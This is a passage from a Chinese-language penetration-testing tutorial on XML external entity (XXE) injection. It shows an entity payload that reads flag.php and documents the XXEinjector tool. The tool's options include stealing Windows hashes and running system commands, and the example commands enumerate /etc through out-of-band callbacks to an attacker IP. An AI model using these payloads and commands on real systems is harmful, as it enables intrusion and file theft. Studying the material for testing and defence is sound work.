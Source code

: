   编码的原本内容为`<!ENTITY xxe SYSTEM 'php://filter/read=convert.base64-encode/resource=./flag.php'>`。



## 自动化 XXE 工具

**XXEinjector**是一款基于Ruby的XXE注入工具.

它可以使用多种直接或间接带外方法来检索文件。其中，目录枚举功能只对Java应用程序有效，而暴力破解攻击需要使用到其他应用程序。

建议在kali环境下运行

**基本参数详解：**

```xml-dtd
--host   必填项– 用于建立反向链接的IP地址。(--host=192.168.0.2)
--file   必填项- 包含有效HTTP请求的XML文件。(--file=/tmp/req.txt)
--path      必填项-是否需要枚举目录 – 枚举路径。(--path=/etc)
--brute     必填项-是否需要爆破文件 -爆破文件的路径。(--brute=/tmp/brute.txt)
--logger    记录输出结果。
--rhost     远程主机IP或域名地址。(--rhost=192.168.0.3)
--rport     远程主机的TCP端口信息。(--rport=8080)
--phpfilter  在发送消息之前使用PHP过滤器对目标文件进行Base64编码。
--netdoc   使用netdoc协议。(Java).``
--enumports  枚举用于反向链接的未过滤端口。(--enumports=21,22,80,443,445)
--hashes    窃取运行当前应用程序用户的Windows哈希。
--expect    使用PHP expect扩展执行任意系统命令。(--expect=ls)
--upload    使用Java jar向临时目录上传文件。(--upload=/tmp/upload.txt)
--xslt   XSLT注入测试。
--ssl       使用SSL。
--proxy     使用代理。(--proxy=127.0.0.1:8080)
--httpport Set自定义HTTP端口。(--httpport=80)
--ftpport    设置自定义FTP端口。(--ftpport=21)
--gopherport 设置自定义gopher端口。(--gopherport=70)
--jarport    设置自定义文件上传端口。(--jarport=1337)
--xsltport 设置自定义用于XSLT注入测试的端口。(--xsltport=1337)
--test   该模式可用于测试请求的有效。
--urlencode   URL编码，默认为URI。
--output    爆破攻击结果输出和日志信息。(--output=/tmp/out.txt)
--timeout   设置接收文件/目录内容的Timeout。(--timeout=20)
--contimeout 设置与服务器断开连接的，防止DoS出现。(--contimeout=20)
--fast   跳过枚举询问，有可能出现结果假阳性。
--verbose   显示verbose信息。
```

**使用方法：**

枚举HTTPS应用程序中的/etc目录：

```
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt –ssl
```

使用gopher（OOB方法）枚举/etc目录：

```
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --oob=gopher
```
